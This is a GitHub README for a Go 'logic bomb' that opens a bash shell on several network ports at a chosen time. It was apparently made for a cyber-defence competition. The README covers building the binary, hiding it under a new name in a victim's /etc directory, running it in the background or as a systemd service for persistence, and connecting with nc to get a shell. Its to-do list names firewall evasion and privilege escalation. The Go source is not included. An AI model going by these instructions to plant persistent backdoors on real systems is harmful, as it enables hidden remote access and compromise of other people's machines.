 # logicbomb-reverse-shell
Author: Shail Patel

Description:

This is a GO-based logic-bomb script written by me for the DOE CyberForce competition 2019 to spawn a reverse shell by opening random network ports.

Usage:

1. Change the epoch timestamp in the script. Go to www.epochconverter.com and input the CORRECT execution time in your preferred local time/GMT and replace the epoch stamp by your newly created time----Line-->'if timeNow > newtime'. You can also slice up and change the portNos in this script differently and accoding to your desired usage.
2. Shoot up the terminal and 'go build logicbomb.go'. 

3. Place the generated go based binary file into your desired target victim's location path of windows/Linux directory. (I usually place inside etc/ directory and rename the file.) Then execute---> './logicbomb &'. You can also bind this as a service file inside systemd manually in order to avoid using '&' while executing the file. I will post that part later. Now, wait till your preferred triggered time of epoch execution.
In Linux,
4. Open up another terminal and "nc -l 'target_ip' 7864/7777/7783/8348/8677/8999". This will spawn a bash shell and you are in!
Check whoami, pwd, ls, ifconfig. Also monitor using "netstat -antlp | grep 'ncat' " if those ports are persistently open.


Note:
Initial Machine Access Required: yes

This shell should be used to maintain foothold/persistence or for post-exploitation once an attacker gains initial entry.

To Do:

1. Work more on a user based privilege escalation technique.
2. Find a way to punch a hole through firewall in order to avoid instant blocking of the ports, if any.
3. Find alternative way to regenerate another ports, in case gets killed by processids.

If you have any questions, please email me directly
shail.patel@nrel.gov

